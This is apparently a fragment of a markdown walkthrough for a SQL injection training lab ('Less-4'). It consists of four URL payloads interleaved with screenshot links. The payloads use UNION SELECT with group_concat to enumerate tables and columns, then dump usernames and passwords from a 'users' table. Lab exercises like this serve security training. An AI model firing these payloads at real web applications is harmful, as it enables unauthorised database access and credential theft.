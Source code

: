 `http://10.101.177.100:9990/Less-4/?id=-1%22) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security"--+`

![](assets/markdown-img-paste-20180417180740316.png)

`http://10.101.177.100:9990/Less-4/?id=-1%22) union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+`

![](assets/markdown-img-paste-20180417180833637.png)

`http://10.101.177.100:9990/Less-4/?id=-1%22)%20union%20select%201,2,group_concat(username)%20from%20users--+`

![](assets/markdown-img-paste-20180417180950511.png)

`http://10.101.177.100:9990/Less-4/?id=-1%22)%20union%20select%201,2,group_concat(password)%20from%20users--+`
